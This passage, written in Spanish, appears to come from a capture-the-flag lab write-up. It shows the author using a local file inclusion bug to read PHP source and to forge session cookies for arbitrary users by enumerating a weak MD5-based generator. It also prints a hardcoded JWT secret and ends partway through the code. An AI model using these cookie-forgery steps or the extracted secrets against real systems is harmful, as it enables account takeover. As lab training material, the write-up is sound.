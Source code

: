 
Acá ocurre la parte más bonita de la máquina, ya que podemos acceder a cualquier archivo arbitrario de la máquina, procedemos a sacar el secreto del token y el algoritmo de la cookie.Mediante el lfi extraemos el archivo cookie.php y aplicamos una expresión regular para que quede más legible. Luego procedemos a poner nuestro nombre de usuario para validar si las cookie son correctas. Luego de esto solo hace falta poner el nombre de Paul y sacar el secreto del token.
```php
cat cookie.php| sed 's/\\n/\n/g' | sed 's/\\r/\r/' | sed 's/\\//g'| sponge  cookie.php

<?php
/**
 * @param string $username  Username requesting session cookie
 * 
 * @return string $session_cookie Returns the generated cookie
 * 
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * */
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
printf(makesession('cxdxnt'))
```
```bash
for i in $(seq 1 1000);do php cookie.php;echo ;done |sort -u
cxdxnt20f5f9dae8b59412f0299036c5f2b745
cxdxnt947ab86b9ef054a68e3da2d5098840b1
cxdxnta30a4c0fb9ebfe098db95c05562a3728
cxdxnte640846cb7f7acdbe36b4f006d12fb3e
cxdxnted1171965820e60be96065b58edd318a
```
Ya podemos generar una cookie como cualquier usuario que queramos, ahora vamos por el token.Logramos extraer el token gracias al archivo fileController.php que está en la ruta /portal/includes/fileController.php.

```php
<?php
$ret = "";
require "../vendor/autoload.php";
use FirebaseJWTJWT;
session_start();
function validate(){

    $ret = false;

    $jwt = $_COOKIE['token'];



    $secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e'; #El secreto.

    $ret = JWT::decode($jwt, $secret_key, array('HS256'));   

    return $ret;

}

if($_SERVER['REQUEST_METHOD'] === "POST"){

```